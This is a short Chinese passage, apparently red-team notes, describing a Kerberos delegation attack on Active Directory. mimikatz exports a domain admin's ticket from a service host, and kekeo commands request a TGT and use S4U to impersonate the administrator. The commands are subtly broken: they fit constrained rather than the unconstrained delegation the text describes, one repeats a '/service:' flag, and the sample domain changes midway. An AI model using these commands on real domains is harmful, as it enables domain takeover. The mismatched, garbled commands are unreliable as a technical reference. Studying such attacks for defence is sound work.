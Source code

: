 **案例**

非约束委派攻击：当域控管理员访问 A 服务时，A 服务就会将访问者的 TGT 保存在内存中（此时攻击者无法访问域控），但是攻击者通过 mimikatz 的 sekurlsa::tickets /export 命令导出内存中域控管理员访问 A 服务的票据，将其注入到内存，这时候就可以访问域控。

![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/1.png)

```
kekeo.exe "tgt::ask /user:sqlsvr /domain:ffffffff0x.com /password:Admin12345" exit

kekeo.exe "tgs::s4u /tgt:TGT_sqlsvr@ffffffff0x.com_krbtgt~ffffffff0x.com@ffffffff0x.com.kirbi /user:administrator@ffffffff0x.com /service:/service:service_to_access" exit

Tgs::s4u /tgt:service_account_tgt_file /user:administrator@testlab.com /service:service_to_access
```
